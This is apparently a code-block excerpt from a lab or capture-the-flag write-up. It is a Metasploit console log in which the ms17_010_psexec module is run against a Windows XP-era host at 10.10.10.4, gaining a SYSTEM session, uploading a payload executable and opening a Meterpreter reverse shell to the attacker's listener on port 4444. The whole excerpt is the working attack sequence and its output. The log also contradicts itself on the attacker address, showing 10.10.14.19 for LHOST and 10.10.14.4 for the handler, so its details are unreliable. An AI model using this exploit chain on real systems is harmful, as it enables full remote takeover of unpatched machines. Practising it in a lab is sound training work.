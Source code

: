 ```
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

msf6 exploit(windows/smb/ms17_010_psexec) > set RHOSTS
RHOSTS => 
msf6 exploit(windows/smb/ms17_010_psexec) > set RHOSTS 10.10.10.4
RHOSTS => 10.10.10.4
msf6 exploit(windows/smb/ms17_010_psexec) > set LHOST tun0
LHOST => 10.10.14.19
msf6 exploit(windows/smb/ms17_010_psexec) > run

[*] Started reverse TCP handler on 10.10.14.4:4444 
[*] 10.10.10.4:445 - Target OS: Windows 5.1
[*] 10.10.10.4:445 - Filling barrel with fish... done
[*] 10.10.10.4:445 - <---------------- | Entering Danger Zone | ---------------->
[*] 10.10.10.4:445 -    [*] Preparing dynamite...
[*] 10.10.10.4:445 -            [*] Trying stick 1 (x86)...Boom!
[*] 10.10.10.4:445 -    [+] Successfully Leaked Transaction!
[*] 10.10.10.4:445 -    [+] Successfully caught Fish-in-a-barrel
[*] 10.10.10.4:445 - <---------------- | Leaving Danger Zone | ---------------->
[*] 10.10.10.4:445 - Reading from CONNECTION struct at: 0x82236988
[*] 10.10.10.4:445 - Built a write-what-where primitive...
[+] 10.10.10.4:445 - Overwrite complete... SYSTEM session obtained!
[*] 10.10.10.4:445 - Selecting native target
[*] 10.10.10.4:445 - Uploading payload... mxhfiscf.exe
[*] 10.10.10.4:445 - Created \mxhfiscf.exe...
[+] 10.10.10.4:445 - Service started successfully...
[*] Sending stage (175174 bytes) to 10.10.10.4
[*] 10.10.10.4:445 - Deleting \mxhfiscf.exe...
[*] Meterpreter session 1 opened (10.10.14.4:4444 -> 10.10.10.4:1031) at 2025-03-12 18:32:56 +1200

meterpreter >
```
